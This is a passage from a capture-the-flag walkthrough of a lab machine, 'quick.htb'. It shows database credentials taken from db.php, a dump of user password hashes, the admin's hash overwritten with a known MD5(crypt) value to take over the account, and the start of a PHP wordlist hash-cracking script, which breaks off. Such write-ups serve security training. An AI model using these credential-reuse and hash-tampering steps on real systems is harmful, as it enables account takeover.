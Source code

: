 We find database credentials in db.php:

```php
<?php
$conn = new mysqli("localhost","db_adm","db_p4ss","quick");
?>

```

We can then use them to connect to the database on the command line via `mysql -h localhost -u db_adm -pdb_p4ss quick`, and we find

```sql
mysql> select * from users;
+--------------+------------------+----------------------------------+
| name         | email            | password                         |
+--------------+------------------+----------------------------------+
| Elisa        | elisa@wink.co.uk | c6c35ae1f3cb19438e0199cfa72a9d9d |
| Server Admin | srvadm@quick.htb | e626d51f8fbfd1124fdea88396c35d05 |
+--------------+------------------+----------------------------------+
2 rows in set (0.00 sec)
```

Let's save the hash for later in case we can crack it and there's some password reuse, but let's just add our own password. We should be able to generate our own with

```
╭─zoey@nomadic ~/htb ‹master*›
╰─$ php -r "echo md5(crypt('password','fa'));"                                                                                               130 ↵
0c0ba48811bed85e3093bc71c6037891
```

Then let's insert it into the database

```sql
mysql> Update users set password='0c0ba48811bed85e3093bc71c6037891' where email='srvadm@quick.htb';
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> select * from users;
+--------------+------------------+----------------------------------+
| name         | email            | password                         |
+--------------+------------------+----------------------------------+
| Elisa        | elisa@wink.co.uk | c6c35ae1f3cb19438e0199cfa72a9d9d |
| Server Admin | srvadm@quick.htb | 0c0ba48811bed85e3093bc71c6037891 |
+--------------+------------------+----------------------------------+
2 rows in set (0.00 sec)
```

Now we can login with `srvadm@quick.htb:password`.

#### Cracking The Hash

Alternatively, we can also crack the hash with the following script:

```php
<?php

$hash = 'e626d51f8fbfd1124fdea88396c35d05';

$tries = 0;
$fn = fopen($argv[1], "r");
$foundit = false;
while (!feof($fn) && !$foundit) {
    $result = trim(fgets($fn));
    $testKey = md5(crypt($result,'fa'));
    if ($testKey == $hash) {
        echo $result;
        $foundit = true;
```